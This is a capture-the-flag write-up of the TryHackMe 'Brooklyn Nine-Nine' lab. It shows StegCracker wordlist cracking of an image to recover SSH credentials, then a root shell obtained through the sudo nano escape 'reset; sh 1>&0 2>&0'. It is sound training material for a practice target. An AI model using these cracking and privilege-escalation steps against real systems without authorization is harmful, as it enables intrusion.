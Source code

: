 ```yaml
---
title: Brooklyn Nine Nine
categories: [TryHackMe]
tags: [Linux, easy,]
image: images/Brooklyn Nine Nine/Brooklyn Nine Nine.jpg
---
```


**Brooklyn Nine-Nine** is a **easy** rated room on **TryHackMe**, inspired by the *Brooklyn Nine-Nine* TV series. The challenge starts with a web server hosting a precinct's internal site containing employee profiles and clues. By enumerating the server, hidden files and directories are uncovered, leading to sensitive information. Initial access is gained through weak credentials, and exploiting further vulnerabilities allows privilege escalation.



For any webpage, the first thing that we can do is check out it’s source-code and over there we can see a hint related to `steganography`

<img src="images/Brooklyn%20Nine%20Nine/img1.webp" alt="Brooklyn Nine-Nine" width="700"/>

Now, we can think like we have an image and a hint towards steganography. So, we can download the image and see if there is something hidden inside it. We can use `Steghide` to uncover the hidden data:


```console
Glitch.@glitch.:~/Downloads$ steghide extract -sf brooklyn99.jpg 
Enter passphrase: 
steghide: can not uncompress data. compressed data is corrupted.
```
Steghide was not able to retrieve the data from the image, so we can try to do the same with `StegCracker`. If StegCracker is not present on your machine, it can be downloaded using the command 

```bash
sudo apt install stegcracker
```

We can pass on a wordlist to StegCracker which it uses to attack the target file and if the wordlist is not passed on then it by default uses the rockyou.txt to attack the target file.

We can pass on a wordlist to StegCracker which it uses to attack the target file and if the wordlist is not passed on then it by default uses the rockyou.txt to attack the target file.

```console
Glitch.@glitch.:~/Downloads$ stegcracker brooklyn99.jpg 
StegCracker 2.0.9 - (https://github.com/Paradoxis/StegCracker)
Copyright (c) 2020 - Luke Paris (Paradoxis)
No wordlist was specified, using default rockyou.txt wordlist.
Counting lines in wordlist..
Attacking file 'brooklyn99.jpg' with wordlist '/usr/share/wordlists/rockyou.txt'..
Successfully cracked file with password: admin
Tried 20395 passwords
Your file has been written to: brooklyn99.jpg.out
admin
```


We can see that the file has been cracked and the data has been written to a new file.
```console 
Glitch.@glitch.:~/Downloads$ cat brooklyn99.jpg.out 
Holts Password:
*******************
Enjoy!!
```
Now, we have the user credentials that we can try to use with SSH. Keep in mind that the username is `holt` and I've hid the password with `*`.

```console
Glitch@glitch:~$ ssh holt@10.10.182.115
The authenticity of host '10.10.182.115 (10.10.182.115)' can't be established.
ECDSA key fingerprint is SHA256:Ofp49Dp4VBPb3v/vGM9jYfTRiwpg2v28x1uGhvoJ7K4.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.182.115' (ECDSA) to the list of known hosts.
holt@10.10.182.115's password: 
Last login: Tue May 26 08:59:00 2020 from 10.10.10.18
holt@brookly_nine_nine:~$ cat user.txt 
*******************************
```

And we got the `user.txt` flag. Now, the next task is to get the root access for which we need to perform privilege escalation.

# Privilege Escalation
As we have already logged in as holt, we need to become root to get the second flag. We can check the commands that can be executed as user holt. To do this we can use the command `sudo -l` to list all the commands that we can execute as root.


```console
Glitch.@brookly_nine_nine:~$ sudo -l
Matching Defaults entries for holt on brookly_nine_nine:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User holt may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /bin/nano
```

We can see that the command `/bin/nano` can be executed as 'root' by user 'holt'. So, we can check if there are any GTFOBins for `nano`. We can run the commands as described in GTFOBins and get the shell access as root.

First, we need to enter the `nano editor` with sudo privilege using the command:

```console 
holt@brookly_nine_nine:~$ sudo /bin/nano
```

Once, we get into the editor we need to press Ctrl+R and then Ctrl+X and then we can execute the command `reset; sh 1>&0 2>&0`. This will give us a root shell using which we can read the `root.txt` from `/root` directory.










<img src="images/Brooklyn%20Nine%20Nine/prv.png" alt="Brooklyn Nine-Nine" width="700"/>



Now we can take the flag from `root.txt` and submit it as the flag for the second question. With this, we have solved the `Brooklyn Nine-Nine` room!


